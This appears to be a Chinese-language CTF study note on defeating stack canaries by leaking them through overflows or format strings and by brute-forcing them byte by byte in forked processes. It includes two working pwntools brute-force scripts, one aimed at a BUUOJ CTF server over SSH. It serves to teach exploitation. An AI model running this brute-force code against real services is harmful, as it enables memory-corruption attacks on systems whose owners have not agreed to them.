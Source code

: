 # canary 绕过-逐字节爆破

## 1.基本的泄露 canary

* 利用栈溢出泄露 canary：因为 canary 是以‘\x00’结尾的，所以栈溢出覆盖 canary 的最低字节，那么之后刚好有一个输出函数的时候就会正好把 canary 连带着输出
* 利用格式化字符串泄露 canary：由于 canary 存储在栈上，所以可以利用格式化字符串漏洞进行进行泄露



## 2.逐字节爆破

* 前提：canary 不变的情况下，并且使用拷贝函数时结尾不会附带`\0`
* 场景：同一个进程中的不同线程的 canary 是相同的父进程创建（fork）的子进程与父进程 canary 相同，所以可以通过子进程是否打印报错信息来逐字节爆破 canaary
* 如果直接采取整个 canary 进行爆破，时间复杂度是根据操作系统位数呈现指数级爆炸的，但是如果每次只爆破一位，那么时间复杂度显著减少，因为每一字节只有 0-256 的可能性，而计算总次数则是每一位计算时间的相加

```python
print("[+] Brute forcing stack canary ")
canary = b"\x00"
while len(canary) < 8:
    for i in range(0x100):
        p.sendafter(b"", padding + canary + p8(i))        
        if not p.recvline_contains(b"stack smashing detected", timeout=1):
            canary += p8(i)
            break

canary = u64(canary)
info("canary: " + hex(canary))
```

```python
session = ssh(host='node5.buuoj.cn', port=26482, user='CTFMan', password='guest')
print("[+] Brute forcing stack canary ")
canary = b""
while len(canary) < 4:
    for i in range(0x100):
        # p = process([elf_path])
        p = session.process(['./vuln'])
        sla(b"> ", str(100).encode())
        p.sendafter(b"Input> ", 0x20*b'a' + canary + p8(i))

        if b"stack smashing detected" in p.recvline():
            p.close()
        else:
            canary += p8(i)
            print("[+] Successful Brute %d", i)
            p.close()
            break

canary = u32(canary)
info("canary: " + hex(canary))
```

